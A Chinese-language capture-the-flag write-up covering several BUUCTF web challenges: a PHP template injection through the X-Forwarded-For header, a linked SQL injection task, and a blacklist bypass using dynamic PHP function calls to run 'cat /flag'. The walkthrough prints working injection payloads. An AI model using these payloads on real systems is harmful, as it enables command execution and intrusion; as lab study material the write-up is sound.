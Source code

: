 ## [CISCN2019 华东南赛区]Web11

###### php ssti

![image-20231214160301620](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231214160301620.png)

根据题目提示，修改X-Forwarded-For，尝试{{7*7}}发现有ssti模板注入

在上级目录中找到flag

```http
X-Forwarded-For:{{system('ls /')}}
```

![image-20231214161121811](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231214161121811.png)

得到flag

![image-20231214160828243](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231214160828243.png)



## [SWPU2019]Web1

###### sql注入

[[SWPU2019\]Web1-CSDN博客](https://blog.csdn.net/satasun/article/details/109391116)



## [CISCN 2019 初赛]Love Math

[buuctf-[CISCN 2019 初赛\]Love Math（小宇特详解）-CSDN博客](https://blog.csdn.net/xhy18634297976/article/details/123148026)

**思路：**

1.先去传入一个参数，看一下是否能进行命令执行

```
payload：/?c=19-1
```

![img](https://img-blog.csdnimg.cn/img_convert/7cc364297a6938fabd57b1c7e1bf615c.png)

2.然后这里黑名单过滤了不少东西，常规的cat/flag都不能使用了，这里有个知识点是php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数比如下面的代码会执行 system(‘cat/flag’);

```
$a='system';
$a('cat/flag');
```

这里使用的传参是

这里使用的传参是

```
?c=($_GET[a])($_GET[b])&a=system&b=cat /flag
```
